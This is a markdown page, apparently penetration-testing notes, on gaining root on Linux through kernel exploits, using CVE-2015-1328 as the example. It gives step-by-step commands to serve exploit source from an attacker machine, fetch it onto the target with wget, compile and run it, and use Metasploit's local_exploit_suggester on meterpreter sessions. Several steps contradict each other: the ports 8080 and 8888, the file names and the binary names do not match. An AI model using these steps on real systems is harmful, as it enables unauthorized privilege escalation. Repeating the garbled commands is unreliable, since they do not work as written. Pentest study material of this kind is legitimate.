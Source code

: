 # Kernel vulnerability exploits

Become root on Linux via kernel exploit:

1. Identify the kernel version
2. Detect vulnerabilities
3. Develop or acquire exploit code 
4. Transfer the exploit to the target machine
5. Execute the exploit on the target

## Example: CVE-2015-1328

For [CVE-2015-1328](https://ubuntu.com/security/CVE-2015-1328) exploit-db lists several possible exploits:

* [37292](https://www.exploit-db.com/exploits/37292)
* [37293](https://www.exploit-db.com/exploits/37293)
* [40688](https://www.exploit-db.com/exploits/40688) <= Metasploit, maybe there are other exploits too

### Using 37292

1. Create a local file `37292.c` in the `/tmp/` directory and paste the code in the file
2. Start a local python http server: `python -m http.server 8080`
3. From the target machine: `wget http://<IP address attack machine>:8888/37292.c`
4. Compile on target machine: `gcc CVE-2015-1328.c -o 37292`
5. Make executable: `chmod +x 37292`
6. Check current user: `id`
7. Run the compiled exploit: `./exp`
8. Check current user: `id`

### Using 40688

1. Upgrade existing shell (meterpreter, ssh, or a basic command shell) to `meterpreter` session

Open a new meterpreter session with:

```text
sessions -u <number>
```

Or upgrade the most recently opened session to meterpreter:

```text
sessions -u -1
```

2. Load the `local_exploit_suggester` module in `msfconsole`: 

```text
meterpreter> use post/multi/recon/local_exploit_suggester
```

3. Set the SESSION option for the module to the session ID of the meterpreter session, and `run`
4. Test the exploit modules recommended by `local_exploit_suggester`. The first few modules in the output usually 
have a higher chance of working successfully.
5. Load a module, set the module options and `exploit`
6. An exploit can fail for many reasons. If not works, try the next one or install missing components for it to run.

## Notes

A failed kernel exploit can lead to a system crash. Make sure this potential outcome is acceptable within the scope of the penetration testing engagement before attempting a kernel exploit.

You can transfer the exploit code from your machine to the target system using the `SimpleHTTPServer` Python module and `wget` respectively. 
